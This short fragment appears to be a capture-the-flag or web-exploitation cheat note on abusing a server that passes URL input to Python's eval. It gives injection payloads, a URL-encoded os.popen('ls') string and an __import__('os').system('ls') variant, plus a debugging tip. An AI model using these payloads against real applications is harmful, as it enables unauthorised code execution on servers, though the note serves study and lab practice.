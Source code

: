 ### Eval used?:
`/hello/"%2bos.popen('ls').read()%2b"`  
_what if there is no system module??_    We IMPORT it :D    **__import__('os').system('ls')**  
If you are grappling with erros, try t run your commands in a python terminal and see if it works
